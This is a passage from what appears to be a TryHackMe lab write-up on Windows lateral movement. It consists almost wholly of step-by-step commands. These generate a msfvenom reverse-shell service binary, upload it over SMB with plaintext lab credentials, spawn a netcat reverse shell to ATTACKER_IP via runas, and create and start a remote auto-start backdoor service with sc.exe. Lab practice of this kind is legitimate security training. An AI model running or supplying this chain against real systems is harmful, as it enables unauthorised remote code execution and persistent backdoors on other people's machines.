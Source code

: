 
### Practical
---

In order to get a shell, we need to follow these steps:

1. Generate our payload:

```
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=IP LPORT=4444 -o bdoor-service.exe
```

2. Start our listener:

```
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

3. Upload our service using `smbclient`:

```
smbclient -c 'put bdoor-service.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
```

4. In our remote shell session (SSH), spawn a second reverse shell with `t1_leonard.summers` access token:

```
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

5. Start the listener:

```
nc -lvnp 4443
```


Once we follow all steps, we receive our second shell:

![[Pasted image 20250516132529.png]]

Now, we need to follow the last steps:

6. Create a new service remotely using the nc shell (`Make sure to change the name of the service for it to work, there are more people on the network`):

```
sc.exe \\thmiis.za.tryhackme.com create BDOORSERVICE-3249 binPath= "%windir%\bdoor-service.exe" start= auto
```

7. Start the service:

```
sc.exe \\thmiis.za.tryhackme.com start BDOORSERVICE-3249
```

